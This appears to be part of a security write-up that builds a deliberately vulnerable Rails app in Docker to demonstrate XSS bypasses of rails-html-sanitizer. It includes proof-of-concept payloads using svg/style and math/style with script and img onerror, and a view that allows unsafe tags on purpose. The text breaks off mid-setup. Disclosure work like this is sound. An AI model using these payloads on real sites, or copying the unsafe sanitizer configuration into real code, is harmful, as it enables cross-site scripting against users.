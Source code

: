 ## Sample Vulnerable Rails Application

To build a sample rails application that is vulnerable, I've used the following `Dockerfile`:

```
FROM ruby:3.1.2

RUN apt-get update && apt-get install -y vim

WORKDIR /usr/src/app
RUN gem install rails && rails new myapp
WORKDIR /usr/src/app/myapp


COPY build-rails-app.sh ./build-rails-app.sh
RUN sh ./build-rails-app.sh
RUN RAILS_ENV=production rails assets:precompile

CMD ["./bin/rails", "server", "-b", "0.0.0.0", "-e", "production"]
```

In the same directory, put a shell script `build-rails-app.sh` which writes the app:

```
#!/ibn/sh

# make routes
cat << EOF > ./config/routes.rb
Rails.application.routes.draw do
  get "/poc1", to: "poc1#index"
  get "/poc2", to: "poc2#index"
end
EOF

# make Poc1 endpoint
# http://localhost:8888/poc1?name=%3Csvg%3E%3Cstyle%3E%3Cscript%3Ealert(1)%3C/script%3E%3C/style%3E%3Csvg%3E
bin/rails generate controller Poc1 index --skip-routes

cat << EOF > ./app/controllers/poc1_controller.rb
class Poc1Controller < ApplicationController
  def index
    @name = params[:name] || "put your name here"
  end
end
EOF


cat << EOF > ./app/views/poc1/index.html.erb
<h1> Hello <%= sanitize @name, tags: ["svg", "style"] %> </h1>
<br>
PoC with a sanitized, reflected parameter 'name' for which 'svg' annd 'style' tags are allowed.
<br>
<%= link_to "Go to PoC", "/poc1?name=<svg><style><script>alert(1)</script></style><svg>" %>
<br>
<br>
Using: rails-html-sanitizer <%= Rails::Html::Sanitizer::VERSION %>
EOF


# make Poc2 endpoint
# http://localhost:8888/poc2?name=%3Cmath%3E%3Cstyle%3E%3Cimg%20src=x%20onerror=alert(1)%3E%3C/style%3E%3Cmath%3E
bin/rails generate controller Poc2 index --skip-routes

```